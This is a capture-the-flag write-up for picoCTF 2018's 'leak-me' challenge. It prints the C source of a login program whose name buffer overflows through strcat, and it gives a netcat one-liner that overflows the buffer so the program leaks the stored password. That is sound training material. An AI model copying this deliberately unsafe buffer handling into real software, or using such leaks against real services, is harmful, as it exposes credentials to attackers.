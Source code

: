 leak-me - Points: 200
===========

## Description

>Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 38315. 

## Hint:

> *  Are all the system calls being used safely?
> *  Some people can have reallllllly long names you know..

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

## Useful Information

> * the variable name is not well managed with the "\x00". 


## Exploit

**Overflowing the name for concatenate it with password variable(no "\x00" delimiters between them):**

> * python -c 'print "A"*500'|.nc 2018shell1.picoctf.com 38315
> * Use the printed password to get the Flag
